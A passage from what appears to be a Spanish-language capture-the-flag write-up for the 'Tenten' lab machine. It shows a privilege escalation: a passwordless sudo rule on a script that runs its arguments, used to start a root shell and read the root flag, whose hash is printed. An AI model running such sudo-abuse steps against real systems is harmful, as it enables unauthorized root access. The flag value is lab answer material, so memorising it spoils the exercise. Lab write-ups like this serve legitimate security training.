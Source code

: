 - Podemos ejecutar sin proporcionar contraseña `/bin/fuckin` como root.

- Este es su contenido.

```bash
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```

- Si le concatenamos un comando lo ejecuta.

```bash
takis@tenten:~$ sudo /bin/fuckin id
uid=0(root) gid=0(root) groups=0(root)
```

## Root flag

- Vamos a ejecutar una bash.

```bash
takis@tenten:~$ sudo /bin/fuckin /bin/bash
root@tenten:~# whoami
root
root@tenten:~# cat /root/root.txt 
d2fbb02fd8fa5e734ecbc1ca8cedf07e
root@tenten:~# 
```


